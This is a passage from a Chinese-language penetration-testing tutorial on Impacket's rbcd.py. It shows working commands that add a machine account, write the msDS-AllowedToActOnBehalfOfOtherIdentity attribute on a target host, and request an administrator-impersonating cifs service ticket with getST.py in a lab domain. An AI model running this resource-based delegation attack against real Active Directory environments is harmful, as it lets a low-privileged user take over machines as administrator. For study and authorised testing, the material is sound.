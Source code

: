 此时通过该域用户创建一个机器账户加入域，就能将机器账户的SID写入目标机器的属性中。从而让机器账户可以在目标机器上通过委派模拟为任意用户的权限。

#### 常用命令

使用test用户，向`WIN-7$`的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性写入`test_computer$`的SID

```plain
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

#### 常用选项

```plain
-action [{read,write,remove,flush}] 选择要对特殊属性进行的操作，可选读取、写入、删除、清空
-use-ldaps 使用LDAPS协议替换LDAP
```

#### 利用实例

因为这个脚本利用比较复杂，所以增加了利用实例

比如，此时我在域中拥有一个普通用户test:1qaz@WSX，通过ACL发现test对WIN-7具有`msDS-AllowedToActOnBehalfOfOtherIdentity`的写权限。

所以我先通过test添加一个computer，test\_computer$:1qaz@WSX，命令如下：

```plain
py -3 addcomputer.py test.com/test:1qaz@WSX -computer-name test_computer$ -computer-pass 1qaz@WSX
```

[![](assets/1702372846-0e642ad4a35690686a61696cf333de68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123552-7a7de570-6bb1-1.png)

然后通过test用户和rbcd.py脚本给WIN-7设置属性。将WIN-7$的`msDS-AllowedToActOnBehalfOfOtherIdentity`属性指向test\_computer$

```plain
py -3 .\rbcd.py -delegate-to WIN-7$ -delegate-from test_computer$ -dc-ip 192.168.40.140 test/test:1qaz@WSX -action write
```

[![](assets/1702372846-adc0a5773454d97b34dcaddb65b36080.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123559-7e55e22e-6bb1-1.png)

设置好属性后，使用getST.py获取到administrator的`cifs/WIN-7`的服务票据（ST）

```plain
py -3 .\getST.py -spn 'cifs/WIN-7' -impersonate administrator -dc-ip 192.168.40.140 'test/test_computer$:1qaz@WSX'
```
